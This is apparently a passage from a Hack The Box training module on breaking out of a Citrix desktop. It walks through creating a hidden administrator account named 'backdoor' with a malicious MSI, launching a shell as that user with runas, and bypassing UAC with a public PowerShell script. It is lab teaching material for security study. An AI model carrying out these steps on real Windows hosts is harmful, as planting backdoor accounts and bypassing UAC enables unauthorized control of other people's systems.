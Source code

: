 Now we can execute `UserAdd.msi` and create a new user `backdoor:T3st@123`
 under Administrators group. Note that giving it a password that doesn’t
 meet the password complexity criteria will throw an error.

![https://academy.hackthebox.com/storage/modules/67/useradd.png](https://academy.hackthebox.com/storage/modules/67/useradd.png)

Back in CMD execute `runas` to start command prompt as the newly created `backdoor` user.

Citrix Breakout

```
C:\> runas /user:backdoor cmd

Enter the password for backdoor: T3st@123
Attempting to start cmd as user "VDESKTOP3\backdoor" ...

```

---

## Bypassing UAC

Even though the newly established user `backdoor` is a member of `Administrators` group, accessing the `C:\users\Administrator`
 directory remains unfeasible due to the presence of User Account 
Control (UAC). UAC is a security mechanism implemented in Windows to 
protect the operating system from unauthorized changes. With UAC, each 
application that requires the administrator access token must prompt the
 end user for consent.

Citrix Breakout

```
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.

```

Numerous [UAC bypass](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)
 scripts are available, designed to assist in circumventing the active 
User Account Control (UAC) mechanism. These scripts offer methods to 
navigate past UAC restrictions and gain elevated privileges.

Citrix Breakout

```powershell
PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep

```

![https://academy.hackthebox.com/storage/modules/67/bypass_uac.png](https://academy.hackthebox.com/storage/modules/67/bypass_uac.png)

Following a successful UAC bypass, a new powershell windows will be 
opened with higher privileges and we can confirm it by utilizing the 
command `whoami /all` or `whoami /priv`. This 
command provides a comprehensive view of the current user's privileges. 
And we can now access the Administrator directory.
